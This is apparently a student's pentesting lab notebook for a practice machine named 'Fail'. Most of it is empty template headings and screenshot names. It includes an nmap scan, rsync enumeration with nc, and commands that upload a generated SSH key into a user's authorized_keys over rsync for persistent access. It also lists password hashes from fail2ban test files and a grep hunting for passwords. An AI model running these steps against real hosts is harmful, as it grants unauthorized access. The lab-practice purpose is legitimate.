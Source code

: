 # Fail Notes

## Data 

IP: 
OS:
Arch:
Hostname:
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Fail-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 


#### Timeline of tasks complete
      

![](reping.png)
searchsploit-rsync.png
sudo nmap -p- -oA nmap/rerescan-script-typo-All-TCP-slow --min-rate 10 192.168.229.126
https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync
https://youssef-ichioui.medium.com/abusing-rsync-misconfiguration-to-get-persistent-access-via-ssh-2507d4a1690b
https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/


phindwhatrsynccantdo.png



bannerandmanenum.png


```bash
nc -nv $ip 873
@RSYNCDL: 31.0 # Server sends this just send it back
# Enumerate files - `#list` 
#list 
# If the send back a directory if @RSYNCD: AUTHREQD then password is required

# Similarly with rsync
rsync -av --list-only rsync://$ipaddress

# SSH Key syncing - https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/

ssh-keygen -f testkey
cat testkey.pub > authorized_keys


rsync -av .ssh/ rsync://192.168.193.126/fox/.ssh

# /etc/rsyncd.secrets

```

whathashitisaskaiforthefirsttime.png

```
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
-rw-r--r-- 1 root root 117 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
```

Very normal crons
![](cronacronalong.png)

failedintothessh.png

```
fox@fail:/dev/shm$ find / -group fail2ban 2>/dev/null | grep -v '/run/\|/proc/\|/sys/' | xargs -I {} grep -r -e 'ass' {}
```

